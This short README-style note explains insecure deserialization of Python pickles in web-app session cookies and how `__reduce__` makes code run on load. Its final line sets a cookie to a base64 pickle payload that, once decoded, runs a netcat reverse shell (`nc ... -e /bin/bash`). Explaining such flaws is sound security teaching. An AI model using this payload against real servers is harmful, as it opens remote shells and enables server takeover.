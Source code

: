 # Server-Sided-Deserialization
See the problem with deserialization is that, if the users input contains malicious data in a serialized format the server will deserialize it hence the code execution<br>
<br>
If you look at my python example you will see the PoC for it.<br><br>
I'm not the best at deserialization so if i miss any information don't judge me lol
<br><br><br>

the `__reduce__` function works like this:<br><br>

```
class Exploit:
  def __reduce__(self):
    return(function, arguments)
```

<br><br>
The PoC i provided is used for webapps and they work like this:<br>
Cookies store session data which are serialized, this is the attack vector. When the cookie goes to the server it deserializes it for use.<br><br>
For example:<br>
`document.cookie='session=gASVOQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjB5uYyAxMjcuMC4wLjEgMTMzNyAtZSAvYmluL2Jhc2iUhZRSlC4'`
